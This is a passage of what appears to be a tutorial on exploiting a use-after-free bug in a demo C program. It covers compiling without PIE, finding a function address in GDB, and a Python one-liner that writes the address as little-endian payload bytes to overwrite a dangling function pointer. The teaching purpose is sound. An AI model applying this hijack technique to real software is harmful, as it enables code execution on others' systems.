 ```
    // --- The Payoff ---
    // 5. We use the original dangling pointer, thinking it's still a valid Note.
    // The program will read the function pointer from that memory location
    // (which we just overwrote!) and call it.
    printf("\nCalling the function from the original (dangling) note pointer...\n");
    note_ptr->print_note_func(note_ptr);

    return 0;
}
```

## Compile for Exploitation
Modern compilers have many protections. To make our demonstration clear and reliable, we will disable one called PIE (Position Independent Executable). This ensures that the address of our *secret_function* is the same every time we run the program.
  
```
gcc -g -o uaf_demo uaf_demo.c -no-pie
```
  
## The Walkthrough with GDB
Let's start debugging!
  
The program will run and then pause, asking for input.
  
![Asking for input](@/assets/images/heap3_asking_for_input.png)
  
If we put something, the program simply ended with Segmentation fault.
  
![Segfault](@/assets/images/heap3_segfault.png)
    
First, we need to know the memory address of *secret_function*. We'll use this address as our payload.
  
![Address](@/assets/images/heap3_address.png)
  
Great! The address is $0x401194$. Your address will likely be different, so use the one GDB gives you. Keep this address handy.
  
Let's stop right before the vulnerable function call to see the state of memory.  
Break before the line:  
`note_ptr->print_note_func(note_ptr);`
  
![Break](@/assets/images/heap3_break.png)
  
This is the crucial moment. We need to provide input that overwrites the print_note_func pointer.
- The Note struct starts with the function pointer, which is 8 bytes on a 64-bit system.
- We need to provide the address of secret_function (0x401194) in little-endian format.
Don't worry about converting it manually. We can use a little Python script to generate the exact bytes. Without closing GDB, open a new terminal (Ctrl+T) and run this command. Remember to replace '0x401194' with the address you found in your GDB session!
  
```
python3 -c "import sys; sys.stdout.buffer.write(b'\x94\x11\x40\x00\x00\x00\x00\x00')" > uaf_demo.txt
```
  